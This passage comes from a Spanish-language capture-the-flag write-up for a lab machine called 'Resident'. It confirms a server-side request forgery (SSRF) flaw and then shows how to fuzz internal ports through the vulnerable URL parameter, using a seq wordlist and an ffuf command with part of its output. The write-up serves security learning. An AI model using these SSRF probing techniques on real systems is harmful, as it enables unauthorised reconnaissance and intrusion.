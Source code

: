 Observa el resultado:

<p align="center">
<img src="/assets/images/THL-writeup-resident/Captura12.png">
</p>

Funcionó, ósea que es posible que podamos ver más archivos locales.

Otra forma sería apuntar a una página web random, pero eso ya lo hicimos antes, por lo que terminamos de comprobar que la página es vulnerable a **SSRF**.

Aprovechando esta vulnerabilidad, podemos identificar qué puertos internos están abiertos, pero ten cuidado, pues puede que existan más puertos abiertos a los que es más complicado identificar.

De momento, vamos a escanear 10 mil puertos. Puedes crear un wordlist que tenga del número 1 al 10 mil con el comando **seq**:
```bash
seq 1 10000 > ports.txt
```

Y podemos usar **wfuzzz** o **ffuf** para realizar el **Fuzzing** de puertos:
```bash
ffuf -w ./ports.txt:FUZZ -u http://192.168.100.110/dashboard.php?url=http://127.0.0.1:FUZZ/ -b 'PHPSESSID=Tu_Cookie' -fr 'No se pudo acceder a la URL.'

        /'___\  /'___\           /'___\       
       /\ \__/ /\ \__/  __  __  /\ \__/       
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\      
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/      
         \ \_\   \ \_\  \ \____/  \ \_\       
          \/_/    \/_/   \/___/    \/_/       

       v2.1.0-dev
________________________________________________

 :: Method           : GET
 :: URL              : http://192.168.100.110/dashboard.php?url=http://127.0.0.1:FUZZ
 :: Wordlist         : FUZZ: /../TheHackersLabs/Resident/content/ports.txt
 :: Header           : Cookie: PHPSESSID=Tu_Cookie
```